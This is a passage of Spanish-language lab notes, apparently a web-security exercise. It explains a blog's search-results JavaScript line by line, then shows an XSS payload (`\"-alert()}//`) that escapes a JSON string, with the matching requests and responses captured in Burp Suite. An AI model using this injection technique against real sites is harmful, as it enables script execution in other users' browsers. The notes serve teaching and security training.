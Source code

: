 - **`viewPostButton.setAttribute("href", "/post?postId=" + searchResult.id);`**: Establece el atributo `href` del botón para que apunte a la URL del post correspondiente.
- **`viewPostButton.innerText = "View post";`**: Establece el texto del botón como "View post".

```javascript
        }

        var linkback = document.createElement("div");
        linkback.setAttribute("class", "is-linkback");
        var backToBlog = document.createElement("a");
        backToBlog.setAttribute("href", "/");
        backToBlog.innerText = "Back to Blog";
        linkback.appendChild(backToBlog);
        blogList.appendChild(linkback);
    }
}
```
- **`var linkback = document.createElement("div");`**: Crea un nuevo elemento `<div>` que se utilizará como contenedor para un enlace de retorno.
- **`linkback.setAttribute("class", "is-linkback");`**: Establece la clase del contenedor `<div>` como `is-linkback`.
- **`var backToBlog = document.createElement("a");`**: Crea un nuevo elemento `<a>` (enlace) que permitirá al usuario volver a la página principal del blog.
- **`backToBlog.setAttribute("href", "/");`**: Establece el atributo `href` del enlace para que apunte a la página principal del blog.
- **`backToBlog.innerText = "Back to Blog";`**: Establece el texto del enlace como "Back to Blog".
- **`linkback.appendChild(backToBlog);`**: Añade el enlace de retorno al contenedor `<div>`.
- **`blogList.appendChild(linkback);`**: Añade el contenedor `<div>` con el enlace de retorno al elemento `blogList`.

El script de abajo llama a una función del script de arriba:
```html
<script src="/resources/js/searchResults.js"></script>
<script>search('search-results')</script>
```

Si capturamos con el burpsuite se están haciendo dos peticiones, la get del propio servidor y la que realiza de forma asíncrona el código con :

```javascript
    xhr.open("GET", path + window.location.search); 
    xhr.send();
```

==Payload== -> `\"-alert()}//`
SI hacemos la petición asíncrona con texto normal : 

GET /search-results?search=regerg
```json
{"results":[],"searchTerm":"regerg"}
```

GET /search-results?search=\\"-alert()}//
```json
{"results":[],"searchTerm":"\"-alert()}//"}
{"results":[],"searchTerm":""-alert()}//"}
```
